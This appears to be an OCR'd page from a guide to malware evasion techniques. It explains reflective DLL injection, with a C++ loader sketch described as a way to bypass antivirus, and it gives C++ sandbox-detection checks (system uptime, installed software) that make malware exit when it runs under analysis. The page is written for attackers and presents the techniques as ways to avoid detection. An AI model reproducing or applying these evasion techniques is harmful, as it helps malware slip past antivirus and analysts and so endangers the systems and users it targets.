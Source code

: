 Steps for Reflective DLL Injection:
   1. Load the DLL into memory without writing it to disk.
   2. Manually resolve all dependencies (imports, exports, etc.) and adjust memory protections.
   3. Execute the DLL's code from memory.

Reflective DLL injection bypasses many AV systems because it doesn't touch the disk and doesn't rely on the typical DLL loading process.

Example (High-Level Overview):
   - You can find the full implementation of reflective DLL injection in many open-source libraries like Stephen Fewer's reflective DLL injection. Here's a high-level overview:
     ```cpp
     // This would be in the reflective loader function
     void *moduleBase = VirtualAlloc(NULL, size_of_image, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
     memcpy(moduleBase, reflective_dll_in_memory, dll_size);
     // Resolve imports and relocate the DLL within the address space
     // Finally, invoke the entry point of the DLL
     DLLMAIN pDllMain = (DLLMAIN)((BYTE *)moduleBase + dll_entry_offset);
     pDllMain(NULL, DLL_PROCESS_ATTACH, NULL);  // Call DllMain of the loaded DLL
     ```

By keeping the entire process in memory and resolving the DLL manually, you avoid triggering traditional AV checks that rely on file I/O operations.

# Environment Checks

Malware often performs checks to ensure it's running in a real environment, not a sandbox or virtual machine. These checks can help malware avoid execution in environments designed for analysis.

#### Common Environment Check Techniques

4.1. Check System Uptime:
   - Many sandboxes have very short uptimes. Malware can refuse to run if the system uptime is below a certain threshold.
   - Example:
     ```cpp
     DWORD get_system_uptime() {
         return GetTickCount() / 1000;  // Get uptime in seconds
     }

     void check_system_uptime() {
         if (get_system_uptime() < 300) {  // Less than 5 minutes
             ExitProcess(0);  // Likely a sandbox
         }
     }
     ```

4.2. Check for Typical Software:
   - Sandboxes may lack common software like Microsoft Office, Adobe Reader, etc. Checking for the presence of this software can help verify if the system is real.
   - Example:
     ```cpp
     bool check_installed_software() {
         HKEY hKey;
         if (RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall", 0, KEY_READ, &hKey) == ERROR_SUCCESS) {
             // Scan for typical software
             RegCloseKey(hKey);
             return true;  // Software detected
         }
         return false;
     }
     ```

